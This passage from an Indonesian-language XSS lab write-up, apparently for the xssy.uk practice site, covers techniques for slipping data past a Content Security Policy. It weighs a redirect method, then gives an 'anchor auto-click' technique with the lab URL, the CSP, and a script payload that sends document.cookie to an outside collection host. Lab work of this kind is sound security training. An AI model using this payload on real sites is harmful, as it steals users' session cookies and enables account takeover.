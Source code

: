 ### Kelebihan
- ✅ **Sangat sederhana** - One-liner code, mudah diingat
- ✅ **Eksekusi cepat** - Tidak perlu membuat element DOM
- ✅ **Bypass CSP tinggi** - Sama seperti meta refresh
- ✅ **Kompatibilitas universal** - Bekerja di semua browser
- ✅ **Multiple variants** - Banyak cara untuk mencapai hasil sama
- ✅ **Reliable** - Jarang gagal jika CSP tidak ada navigate-to

### Kekurangan
- ❌ **User awareness** - Victim langsung berpindah halaman
- ❌ **URL length limit** - Terbatas sekitar 2000 karakter
- ❌ **Back button available** - Kecuali pakai `location.replace()`
- ❌ **Obvious redirect** - Terlihat jelas di browser history
- ❌ **Bisa diblokir oleh**: `navigate-to 'self'` (jika ada)

---

## 🎯 Teknik 3: Anchor Tag Auto-Click

### URL & Parameter Lab
```
https://pzcihwu2.xssy.uk/target.ftl?name=
```

### CSP yang Diterapkan
```
default-src 'none'; 
img-src https://xssy.uk/; 
style-src 'unsafe-inline'; 
script-src 'unsafe-inline'
```

### Penjelasan Teknik
Teknik ini membuat element `<a>` (anchor/link) secara dinamis dengan JavaScript, kemudian men-trigger click event secara otomatis. Ini mensimulasikan user click pada link, sehingga browser melakukan navigasi seolah-olah user yang klik.

Keuntungan teknik ini adalah terlihat lebih "natural" karena menggunakan elemen HTML standar untuk navigasi.

### Full URL, Parameter & Payload

**Payload:**
```javascript
<script>
var a = document.createElement('a');
a.href = 'https://eqh42jmm.xssy.uk/?c='+document.cookie;
document.body.appendChild(a);
a.click();
</script>
```
